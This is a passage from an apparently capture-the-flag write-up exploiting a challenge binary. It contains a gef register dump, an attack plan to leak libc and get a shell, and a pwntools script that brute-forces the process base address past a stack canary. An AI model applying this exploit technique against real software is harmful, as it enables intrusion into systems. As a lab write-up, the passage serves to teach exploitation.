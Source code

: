 ```
$r11   : 0x0
$r12   : 0x0000555555555060  →  <_start+0> endbr64
$r13   : 0x00007fffffffe640  →  0x0000000000000001
$r14   : 0x0
$r15   : 0x0
$eflags: [ZERO carry PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 $fs: 0x0000 $gs: 0x0000
```

Or you can just RTFM (Linux Kernel docs):

```
RAX -> system call number
RDI -> first argument
RSI -> second argument
RDX -> third argument
R10 -> fourth argument
R8 -> fifth argument
R9 -> sixth argument
```

Since `perror` has one argument, RDI it is.

After leaking a `libc` address, it's game over.


#### Attack Plan

1. Brute-force base process address using `flag1.txt`
2. Use `perror` to leak `libc` address
3. Use `libc` to to get a shell
4. Get the flag


#### Brute-force base process address using `flag1.txt`

Append to the previous code:

```
p.clean()
procbase = p16(flag1 + i * 0x1000)

for i in range(6):
    for j in x:
        payload = buf + canary + bp + procbase + p8(j)
        p.sendline(payload)
        r = p.recvuntil('> ')
        r += p.clean(timeout=0.25)
        if r.find(b'pctf') != -1:
            procbase += p8(j)
            print(binascii.hexlify(procbase))
            break
    if not r.find(b'pctf') != -1:
        print("FAILED, you prob got an LF (0xa) in stack")
        sys.exit(1)

procbase = int(procbase[::-1].hex(),16) ^ flag1
print(hex(procbase))
print("HAVE PROCBASE")

import code
code.interact(
    local=locals(),
    banner="\nfrom another terminal type: gef blindpiloting " + str(p.pid) + "\n",
    exitmsg="\ngoing back to code\n"
)
```
